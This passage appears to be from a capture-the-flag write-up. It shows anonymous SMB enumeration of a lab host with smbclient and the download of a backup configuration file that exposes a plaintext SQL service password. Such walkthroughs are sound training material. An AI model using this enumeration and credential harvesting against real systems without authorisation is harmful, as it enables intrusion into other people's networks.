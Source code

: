 Let's quickly digress.

---

After some searching online, we see that `microsoft-ds` is actually associated with samba!  We know of samba from our home server, and have `smbclient` installed.

We run
```bash
smbclient -N -L \\\\10.10.10.27\\
```

This enumerates the samba shares available:
```bash
$ smbclient -N -L \\\\10.10.10.27\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

Let's have a look at what is in `ADMIN$`!:
```bash
$ smbclient -N \\\\10.10.10.27\\ADMIN$                               1 ⨯
tree connect failed: NT_STATUS_ACCESS_DENIED
```

It seems it is not accessible anonymously.  In fact, the only one anonymously accessible is `backups`, and here is what we find:
```bash
 smbclient -N \\\\10.10.10.27\\backups                                                                                                                           1 ⨯
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jan 21 01:20:57 2020
  ..                                  D        0  Tue Jan 21 01:20:57 2020
  prod.dtsConfig                     AR      609  Tue Jan 21 01:23:02 2020

                10328063 blocks of size 4096. 8260396 blocks available
smb: \>
```

Note that another command for `ls` is `dir` in samba client.

We run `get prod.dtsConfig` to get the file in the backup directory.  It looks like this:
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
